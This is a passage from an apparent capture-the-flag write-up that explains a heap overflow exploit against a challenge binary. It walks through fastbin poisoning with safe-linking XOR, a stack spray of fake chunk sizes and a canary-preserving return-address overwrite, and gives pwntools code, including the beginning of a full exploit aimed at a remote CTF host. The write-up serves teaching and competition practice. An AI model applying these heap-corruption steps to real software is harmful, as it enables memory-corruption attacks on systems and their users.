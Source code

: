 ```c
  if (new_token->str == NULL) {
    fprintf(stderr, "I just don't know what went wrong...\n");
    exit(-1);
  }
  memcpy(new_token->str, token_str, token_len);
```

From this point we can proceed in infinite number of ways since we're getting an almost arbitrarly long heap buffer overflow.
The two most obvious methods would be to either abuse fastbins or tcache.
Fastbins are a little more constrained that tcache in modern glibc, however in this challenge `calloc`s happen earlier than `malloc`s
so I found it easier to reason about while developing the exploit for my challenge. An another player in the ctf solved it with tcache poisoning
but I can't link their solution since they posted it only on the competition's Discord server.
So first we corrupt the heap's metadata so it later returns a chunk inside of the stack allowing us to overwrite the return address.
```python
# Corrupt 0x20 fastbins inside of the heap so fwd ptr points to the stack.
stack_xor = (stack_leak-10392-16) >> 12
payload = b"##\x00" + p64(0)*2 + p64(0x21) + \
    p64((stack_leak-10392-16)^heap_leak>>12)
io.sendlineafter(b"<<< ", b'"BEG ' + payload + b'"')
```

But that's not all. There's an additional check ptmalloc performs while returning a fastbin chunk, more specifically [it checks if the chunk size isn't corrupted](https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/security_checks).
To satisfy this check I'm gonna spray the stack with the correct size at the place where I wanted the chunk to be.
When calculating offsets I specifically put the corrupted fwd ptr there, in a place where our input string is read into so I have control of what's in there.
```python
# Spray the stack with p64(0x21) values so ptmalloc wont complain about
# corrupted size. The overwritten fastbin points to a place on the stack
# where there are the 0x21 values.
io.sendlineafter(b"<<< ", b'"aaabbbb' + p64(0x21) * (1000) + b'"')
```

And as the final step I'm allocating a string that will be put on the stack, giving us a juicy stack corruption.
```python
# Corrupt the stack. yay!
io.sendlineafter(b"<<< ", b'"AAAA" "AAAA\x00BB' + p64(stack_canary) * 2 + \
                 p64(exe.sym['you_should_be_able_to_solve_this']+1) + b'"')
```

To wrap things up, this is the full exploit:
```python
from pwn import *

libc = ELF("./libc.so.6")
exe = ELF("./lain_patched")

context.terminal = "alacritty -e".split()
if args.REMOTE:
    io = remote("795db1b.678470.xyz", 32457)
    #io = remote("0.0.0.0", 5000)
elif args.GDB:
    io = gdb.debug("./lain_patched", aslr=False)
else:
    io = process("./lain_patched", aslr=False)
    #attach(io)

io.sendlineafter(b"<<< ", b'(+ 0 "AABB")')
heap_leak = int(io.recvline())
```